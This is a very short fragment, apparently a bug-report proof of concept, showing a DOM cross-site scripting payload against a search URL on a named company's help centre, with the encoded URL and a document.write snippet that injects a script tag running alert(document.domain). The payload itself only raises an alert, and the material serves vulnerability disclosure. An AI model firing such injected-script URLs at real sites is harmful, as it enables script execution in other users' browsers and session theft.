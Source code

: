 https://kucoin.zendesk.com/hc/en-us/search?utf8=%E2%9C%93&query=document.write(%27...%20%3Cscript%3Ealert(document.domain)%3C/script%3E%20...%27);



DOM XSS POC CHECK CONSOLE FOR PROOF


```php-template
document.write('... <script>alert(document.domain)</script> ...');
```